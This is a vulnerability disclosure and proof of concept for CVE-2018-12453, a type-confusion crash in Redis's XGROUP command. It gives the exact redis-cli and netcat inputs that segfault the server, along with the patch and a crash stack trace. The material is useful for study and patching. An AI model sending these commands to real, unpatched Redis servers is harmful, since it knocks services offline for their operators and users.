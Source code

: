 # Exploit Title: Redis 5.0 Denial of Service
# Date: 2018-06-13
# Exploit Author: Fakhri Zulkifli (@d0lph1n98)
# Vendor Homepage: https://redis.io/
# Software Link: https://redis.io/download
# Version: 5.0
# Fixed on: 5.0
# CVE : CVE-2018-12453

Type confusion in the xgroupCommand function in t_stream.c in redis-server in Redis before 5.0 allows remote attackers to cause denial-of-service via an XGROUP command in which the key is not a stream.


PoC:
$ ./src/redis-server

# on another bash
$ ./src/redis-cli -p 6379
127.0.0.1:1234> set a 123
OK
127.0.0.1:1234> xgroup create a b $
Error: Connection reset by peer  <— segfault'ed
127.0.0.1:1234>

The bug also could be triggered via netcat
$ nc 127.0.0.1 1234
set a 123
+OK
xgroup create a b $  <— segfault’ed after this line


@@ -1576,7 +1576,7 @@ NULL
     /* Lookup the key now, this is common for all the subcommands but HELP. */
     if (c->argc >= 4) {
robj *o = lookupKeyWriteOrReply(c,c->argv[2],shared.nokeyerr);
-         if (o == NULL) return;
+         if (o == NULL || checkType(c,o,OBJ_STREAM)) return;
         s = o->ptr;
         grpname = c->argv[3]->ptr;


  #0 0x6d0706 in logStackContent /home/user/redis/src/debug.c:732:45
  #1 0x6d3917 in sigsegvHandler /home/user/redis/src/debug.c:1089:5
  #2 0x7f65d736e38f  (/lib/x86_64-linux-gnu/libpthread.so.0+0x1138f)
  #3 0x804afc in streamLookupCG /home/user/redis/src/t_stream.c:1502:12
  #4 0x805b36 in xgroupCommand /home/user/redis/src/t_stream.c:1584:19
  #5 0x58ded7 in call /home/user/redis/src/server.c:2298:5
  #6 0x591c70 in processCommand /home/user/redis/src/server.c:2580:9
  #7 0x5e2d98 in processInputBuffer /home/user/redis/src/networking.c:1325:17
  #8 0x565612 in aeProcessEvents /home/user/redis/src/ae.c:443:17
  #9 0x56614c in aeMain /home/user/redis/src/ae.c:501:9
  #10 0x59da71 in main /home/user/redis/src/server.c:3992:5
  #11 0x7f65d6d9d82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
  #12 0x43da38 in _start (/home/user/redis/src/redis-server+0x43da38)